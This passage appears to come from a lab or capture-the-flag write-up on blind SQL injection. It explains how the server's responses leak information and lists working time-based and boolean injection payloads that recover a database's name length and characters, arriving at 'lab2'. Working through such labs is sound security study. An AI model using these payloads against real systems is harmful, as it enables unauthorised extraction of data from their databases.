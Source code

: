 ![Jailbreak 3](jail-3-2.png)

Notice that this happens when the sql command executes successfully but multiple results have been returned back. The server does not know which command it is (It must have used `sth IN sth` or `sth LIKE sth`). If the command fails, it would say

```
You broke something :(
```

With this, we are able to use blind injection. [This blog](https://blog.csdn.net/liweibin812/article/details/86510860) was really helpful to me.

#### Guess the name of the database

Attempts:

```
') and sleep(if(ascii(substr(database(), 1, 1)) < 116, 0, 5) % 23 #

') and sleep(if(ascii(substr(database(), 1, 1)) < 60, 0, 5) % 23

') or length(database()) = 1 # 

fight') and length(database()) = 1 # 

') and length(database()) = 4 #
=> the length of the database name is 4

') and ascii(substr(database(), 1, 1)) > 97 # 

') and ascii(substr(database(), 1, 1)) > 100 # => true
') and ascii(substr(database(), 1, 1)) > 120 # => false
') and ascii(substr(database(), 1, 1)) > 110 # => false
') and ascii(substr(database(), 1, 1)) < 105 # => false
') and ascii(substr(database(), 1, 1)) > 107 # => true
') and ascii(substr(database(), 1, 1)) > 108 # => false
=> the first character is chr(108) = 'l'

Similar approach => 'lab2'
```
